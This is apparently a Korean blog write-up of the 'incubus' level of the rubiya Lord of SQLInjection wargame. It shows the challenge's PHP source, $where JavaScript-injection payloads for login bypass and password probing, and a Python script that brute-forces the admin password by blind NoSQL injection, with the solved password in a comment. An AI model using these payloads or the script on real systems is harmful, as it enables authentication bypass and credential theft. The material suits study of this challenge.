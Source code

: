 ```yaml
---
title : "LOS Lv.48 incubus"
categories : [Wargame, rubiya]
tags : [$where, js injection, Blind NOSQL Injection]
---
```


## incubus
```php
query : {"$where":"function(){return obj.id==''&&obj.pw=='';}"}

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

## Solution
```
$where : JavaScript 표현식에 만족하는 documents를 조회
```
online tool : <a href="https://mongoplayground.net/" target="_blank">https://mongoplayground.net/</a>  
아래처럼 설정하고 테스트 함.
```
[
  {
    "id": "admin",
    "pw": "admin@secret"
  },
  {
    "id": "guest",
    "pw": "guest@secret"
  }
]
```
먼저 아이디, 비밀번호 입력해주면 잘 나옴.
```
db.collection.find({
  "$where": "function(){return obj.id=='admin'&&obj.pw=='admin@secret';}"
})
```
```
[
  {
    "_id": ObjectId("5a934e000102030405000000"),
    "id": "admin",
    "pw": "admin@secret"
  }
]
```
이제 비밀번호를 모르는 상황에서 로그인 하려면 아래와 같음.
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin';}"
})
```
이제 실제 사이트에서 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin
```
이제 문제에서 요구하는 비밀번호를 알아내야 함. 
먼저 비밀번호 길이를 알아낼꺼임. 
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin'&&obj.pw.length>'1';}"
})
```
이제 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin'%26%26obj.pw.length>'1
?pw='||obj.id=='admin'%26%26obj.pw.length=='8

비밀번호 길이는 8임.
```
비밀번호 값을 알아내야 하는데 '('가 필터링 되어 있어서 js String methods 사용 불가.  
근데 obj.pw는 string이므로 배열형태로 값을 알아낼 수 있음.
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin'&&obj.pw[0]=='a';}"
})
```
이제 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin'%26%26obj.pw[0]>'0
?pw='||obj.id=='admin'%26%26obj.pw[0]=='b

-> pw 첫 글자는 b라는 걸 알아냄! 이제 Blind NOSQLi를 하면 됨.
```
```python
import requests
import string

url='https://los.rubiya.kr/chall/incubus_3dff9ce783c9f574edf015a7b99450d7.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'PHPSESSID':'[redacted]'}

check="0123456789"+string.ascii_lowercase
pw=''

for i in range(0,9) :
    for j in check :
        payload={'pw' : "'||obj.id=='admin'&&obj.pw["+str(i)+"]=='"+j}
        res=requests.get(url, headers=headers, params=payload, cookies=cookies)
        if "<h2>Hello admin</h2>" in res.text:
            pw+=j
            print("pw : "+pw)  # b47822ea
            break
             
print("INCUBUS Clear!")
```

![](/assets/images/rubiya_rank.png){: .align-center}
.. 나중에 풀이 본거 다시 풀어보기!!
